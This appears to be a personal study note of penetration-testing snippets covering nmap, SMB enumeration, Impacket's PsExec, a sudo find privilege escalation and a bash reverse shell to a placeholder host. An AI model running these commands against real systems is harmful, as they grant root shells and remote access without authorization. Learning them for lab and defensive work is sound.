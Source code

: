 ```yaml
---
title: "Impacket and Random Stuff"
tags:
  - cs/hacking
programming-languagues:
created: 2022-07-08
---
```

## Nmap
- Can use the `-Pn` switch to enumerate machines when packets are blocked by firewall.

## SMB
- Sever Message Block
- Usually port 445

```bash
smbclient -L {taget_IP} -U Administrator
```

## Impacket
It is a framework written in Python for working with network protocols. It is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB and MSRPC) the protol implementation itself. 

Contains dozens of amazing tools for interacting with Windows systems and applications, many of which are ideal for attacking Windows and Active Directory.

**Impacket** creates a remote service by uploading a randomly-named executable on the ADMIN$ share on the remote system and then register it as a Windows service.This will result in having an interactive shell available on the remote Windows system via TCP port 445 .  

**PsExec** is  a portable tool that lets you run processes remotely using any user's credentials.

It requires credentials for a user with local administrator privileges or higher since reading/writing to the ADMIN$ share is required. Once you successfully authenticate, it will drop you into a NT   AUTHORITY\SYSTEM shell.

## Reversed File
```bash
strings login.php.swp >> file.txt  
tac file.txt
```

## Privilege Escalation
Using the find command:

```bash
sudo find . -exec /bin/sh \; -quit
```

## Reverse Shell
```bash
/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP_ADDRESS/LISTENING_PORT 0>&1'
```

## More random stuff
List strings in the file:

```bash
strings -n 10 <filename>
```